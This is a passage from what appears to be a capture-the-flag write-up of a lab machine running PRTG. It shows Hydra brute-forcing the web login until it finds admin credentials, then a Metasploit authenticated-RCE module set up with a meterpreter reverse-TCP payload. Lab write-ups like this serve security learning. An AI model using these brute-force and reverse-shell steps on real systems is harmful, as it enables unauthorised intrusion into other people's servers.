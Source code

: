 ```
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 100 login tries (l:1/p:100), ~25 tries per task
[DATA] attacking http-post-form://10.10.10.152:80/public/checklogin.htm:username=prtgadmin&password=^PASS^&loginurl=:Your login has failed. Please try again!
[80][http-post-form] host: 10.10.10.152   login: prtgadmin   password: PrTg@dmin2019
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-11 20:16:42
```
This time hydra identifies the correct credentials and we are able to login to the website.

![Login](./logged_in.png "Logged In!!")

# Exploitation using Metasploit
The module identified during vulnerability search works perfectly and we get a SYSTEM shell.

```
msf6 exploit(windows/http/prtg_authenticated_rce) > options 

Module options (exploit/windows/http/prtg_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   ADMIN_PASSWORD  PrTg@dmin2019    yes       The password for the specified username
   ADMIN_USERNAME  prtgadmin        yes       The username to authenticate as
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.10.10.152     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                            no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
```